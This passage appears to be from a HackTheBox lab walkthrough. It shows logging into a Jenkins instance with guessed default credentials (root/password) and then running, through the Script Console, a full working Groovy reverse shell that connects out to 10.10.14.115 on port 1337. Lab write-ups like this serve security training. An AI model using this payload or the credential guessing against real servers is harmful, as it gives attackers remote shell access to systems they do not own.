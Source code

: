 2. HTTP service with port 8080 is opened, let's access it through browser. Then we see there is a login page

   ![](../assets/img/htb-starting-point/83.png)

3. By guessing the password, the username is **root** and the password is **password**

4. After login, we can actually go to **Dashboard**->**Manage Jenkins**->Tools and Actions-**Script Console**, at there you can run any **groovy** script. Let's generate a reverse shell at there, reference from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#groovy.

   We have modify three things: `host`, `port`, `cmd=/bin/bash` if linux, `cmd=cmd.exe` if windows

   ```groovy
   String host="10.10.14.115";
   int port=1337;
   String cmd="/bin/bash";
   Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
   ```
